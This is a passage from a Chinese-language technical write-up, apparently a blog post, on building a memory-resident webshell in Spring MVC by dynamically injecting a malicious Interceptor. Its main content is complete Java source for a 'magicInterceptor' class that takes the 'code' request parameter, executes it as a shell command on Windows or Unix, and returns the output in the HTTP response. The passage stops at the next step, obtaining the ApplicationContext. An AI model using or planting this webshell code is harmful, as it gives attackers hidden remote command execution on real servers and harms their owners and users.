 
## 0x02：实现

经过一番探索，我们发现使用 `Interceptor` 来拦截所有进入 `Controller` 的 http 请求理论上是可行的，接下来就是实现从代码层面动态注入一个 `Interceptor` 来达到 webshell 的效果。

### 一：实现恶意 Interceptor

首先，我写了一个继承自 `org.springframework.web.servlet.handler.HandlerInterceptorAdapter` 类，名为 `magicInterceptor` 的拦截器，并重写了 `preHandle` 方法，在其中实现一个简单的命令执行回显的 webshell 逻辑。

当请求参数中含有 `code` 字符串时，会把它的值当作命令执行，否则就忽略这次拦截，继续进行正常的业务逻辑。

```java
import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class magicInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String code = request.getParameter("code");
        if(code != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                String o = "";
                ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new ProcessBuilder(new String[]{"cmd.exe", "/c", code});
                }else{
                    p = new ProcessBuilder(new String[]{"/bin/sh", "-c", code});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
                o = c.hasNext() ? c.next(): o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            }catch (Exception e){
            }
            return false;
        }
        return true;
    }

}
```



### 二：获取 ApplicationContext
